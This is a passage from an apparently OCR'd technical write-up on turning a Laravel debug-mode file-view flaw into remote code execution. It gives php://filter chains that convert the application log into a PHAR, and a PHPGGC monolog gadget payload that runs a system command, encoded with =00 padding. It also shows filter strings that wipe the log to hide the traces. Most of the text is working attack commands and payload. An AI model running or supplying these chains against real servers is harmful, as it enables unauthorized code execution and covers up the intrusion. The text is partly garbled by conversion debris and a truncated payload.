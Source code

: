 Speaking of alignment, what will the conversion filter handle if the log file itself is not 2 byte aligned?

```plain
PHP Warning:  file_get_contents(): iconv stream filter("utf16le"=>"utf-8"): invalid multibyte sequence in phpshell code on line 1
```

This is another problem. 

```plain
[prefix]PAYLOAD_A[midfix]PAYLOAD_A[suffix]
[prefix]PAYLOAD_B[midfix]PAYLOAD_B[suffix]
```

Since there are two copies of the prefix, infix and suffix here, and payload_a and payload_b are also provided, the size of the log file must be even, thus avoiding errors.

Finally, we have to solve the last problem: we use NULL bytes to pad the bytes of the payload from one to two. 

```plain
PHP Warning: file_get_contents() expects parameter 1 to be a valid path, string givenin php shell code on line 1
```

Therefore, we will not be able to inject a payload with NULL bytes into the error log. 

We can encode NULL bytes using =00.


</a-alert>
<br/>

```php
viewFile:php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.ba se64-decode/resource=/path/to/storage/logs/laravel.log
```

Create a PHPGGC payload and encode it:

```php
php -d'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | sed -E 's/./\0=00/g'
U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=00M=00f=00n=00/=00Y=00B=00A=00A=00A=00A=00A=00Q=00A=00A=00A=00A=00F=00A=00B=00I=00A=00Z=00H=00V=00t=00b=00X=00l=00u=00d=00Q=004=00A=001=00U=00l=003=00t=00r=00Q=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00B=000=00Z=00X=00N=000=00U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=007=00m=00z=00i=004=00H=00Q=00A=00A=00A=00B=000=00A=00A=00A=00A=00O=00A=00B=00I=00A=00L=00n=00B=00o=00Y=00X=00I=00v=00c=003=00R=001=00Y=00i=005=00w=00a=00H=00B=00u=00d=00Q=004=00A=00V=00y=00t=00B=00h=00L=00Y=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=008=00P=003=00B=00o=00c=00C=00B=00f=00X=000=00h=00B=00T=00F=00R=00f=00Q=000=009=00N=00U=00E=00l=00M=00R=00V=00I=00o=00K=00T=00s=00g=00P=00z=004=00N=00C=00l=00B=00L=00A=00w=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00C=00E=00A=00D=00H=005=00/=002=00A=00Q=00A=00A=00A=00A...=00Q=00==00==00
```

Clear the log

```shell
viewFile: php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```
